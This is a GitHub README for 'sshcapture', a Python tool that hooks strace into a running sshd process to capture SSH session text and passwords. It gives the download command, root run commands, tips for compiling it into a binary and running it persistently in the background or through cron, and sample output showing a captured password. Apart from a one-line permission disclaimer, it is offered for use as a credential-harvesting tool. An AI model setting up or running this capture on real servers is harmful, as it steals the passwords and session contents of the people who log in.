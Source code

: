 # sshcapture

Simple python script that uses strace to attach to the currently running sshd process on an ssh server, and captures text from user sessions (including passwords). Requirements:
- Linux server with strace installed and sshd running
- You have root access

DISCLAIMER: only use if you have permission, don't be an idiot, I am not held liable, etc etc

Steps:
- Install strace -  `yum install strace`, `apt install strace`, etc
- Download the script - `wget https://raw.githubusercontent.com/anton-3/sshcapture/main/capture.py`
- Run it as root
  - `sudo python3 capture.py` prints to standard output
  - `sudo python3 capture.py /var/log/supersecret.log` writes to an output file
- (Optional) Compile it to a binary with pyinstaller
  - `python3 -m pip install pyinstaller`
  - `pyinstaller -F capture.py` puts the binary in ./dist
- (Optional) run it indefinitely in the background with something like tmux or screen (or a cronjob)

How it works: Hooks into the `write` syscalls made by ssh sessions and reads stdout from the strace command. There's a whole lot of non-ASCII garbage in the output that's impossible to get rid of with strace itself, so the script filters some of that out (there's still a lot of garbage left though). Prints an alert before every ssh session and sudo call, if passwords are what you're into. The script kinda sucks, I hacked it together in a couple hours and it's still overcomplicated somehow

also I literally only tested it on a barebones debian vm so if it doesn't work my b

Example output (the important part, the whole thing is hundreds of lines):
```
...

user
$
0`|ZlU0xZlUX[lU@Y[lU@X[lUuser*user,,,/home/user/bin/bash
d
################################################################################
################################ SSH CONNECTION ################################
################################################################################
ssh-connection
aAX\favv kQ?SGaN\\Y'
ssh-rsa&1f).$0Od\"%iq8 X^]=%=R>WG~/vxXD\fWHYQm{X9/[]'lzDpi2\v'Y-d]]/@;Ed(RCkukUP 0Slp:oiRX/q<BrgAA9F\"/
S[G[IIJwiQ8&{dyc-n}'w
H
3\vssh-ed25519 C$(z:BL?eG0qd2
IqEeeX\fAW<e|W#&fPgz}
\f
secretPASSWORD123!
f
g
iqXmZ>!7*d{
 Q.w>@wJ>do\v@\vssh-ed25519^2PQi<Vjcurve25519-sha256,curve25519-sha256@libssh.org,ecdh-sha2-nistp256,ecdh-sha2-nistp384,ecdh-sha2-nistp521,diffie-hellman-group-exchange-sha256,diffie-hellman-group16-sha512,diffie-hellman-group18-sha512,diffie-h
1000
Linux debian 5.10.0-20-amd64 #1 SMP Debian 5.10.158-2 (2022-12-13) x86_64

...
```

Resources:
- `man strace`
- `man 2 write`
- literally just google "capture ssh passwords with strace"
